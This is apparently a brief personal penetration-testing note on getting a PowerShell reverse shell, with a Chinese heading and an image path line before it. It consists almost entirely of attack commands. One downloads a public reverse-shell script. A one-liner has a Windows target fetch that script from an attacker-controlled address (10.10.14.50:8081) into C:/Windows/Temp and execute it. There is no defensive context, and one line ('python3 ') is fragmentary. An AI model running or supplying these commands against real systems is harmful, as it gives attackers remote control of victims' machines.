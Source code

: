 % reverse shell, powershell

# powershell反弹shell
```sh
curl https://raw.githubusercontent.com/martinsohn/PowerShell-reverse-shell/refs/heads/main/powershell-reverse-shell.ps1 > shell.ps1
ifconfig
echo "python3 "
echo "powershell -c Invoke-WebRequest -Uri http://10.10.14.50:8081/shell.ps1 -OutFile C:/Windows/Temp/shell.ps1; powershell -c C:/Windows/Temp/shell.ps1"
```